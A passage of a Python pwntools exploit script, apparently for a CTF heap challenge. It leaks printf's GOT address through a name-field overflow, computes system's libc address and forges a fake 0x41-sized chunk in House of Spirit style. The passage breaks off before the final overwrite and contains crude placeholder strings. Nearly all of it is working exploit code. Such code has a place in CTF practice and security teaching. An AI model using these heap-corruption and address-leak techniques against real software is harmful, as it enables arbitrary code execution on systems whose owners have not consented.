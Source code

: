 ```python
log.info("strlen_got -> " + hex(strlen_got))


def add_refles(name,desc):
    sh.sendline("1")
    sh.sendline(name)
    sh.sendline(desc)

def show_refles():
    sh.sendline("2")

def leave_message(content):
    sh.sendline("4")
    sh.sendline(content)

def leak_addr():
    name = 'a' * 27 + p32(printf_got)
    desc = 'b'
    log.info("name -> " + name)
    log.info("desc -> " + desc)
    
    # add refle and overwrite the prev_riles
    add_refles(name, desc)

    # leak printf_addr
    show_refles()
    sh.recvuntil("Description: ")
    sh.recvuntil("Description: ")
    printf_addr = u32(sh.recvn(4))
    log.info("printf_addr -> " + hex(printf_addr))

    return printf_addr

def get_system_addr(addr, libc_addr):
    base = addr - libc_addr
    system_addr = base + system_libc
    log.info("system_addr -> " + hex(system_addr))
    return system_addr

def fake_chunk():
    # We need to make the size of chunk 0x41
    for i in range(0x40-1):
        add_refles(str(i), "fuck u")

    # make a chunk to set the house into link
    name = 'a' * 27 + p32(message_addr)
    desc = "fuck U!"
    log.info("name -> " + name)
    log.info("desc -> " + desc)
    add_refles(name, desc)

def order_refles():
    sh.sendline("3")

def main():
    printf_addr = leak_addr()
    system_addr = get_system_addr(printf_addr, printf_libc)
    fake_chunk()

    # The padding's length is from message to the next chunk size 
    # padding = padding * (0xa0 + 0x40 - 0xc0 + 4) + p32(0x41) 
    padding= "\x00\x00\x00\x00"*9 + p32(0x41)
    leave_message(padding)
```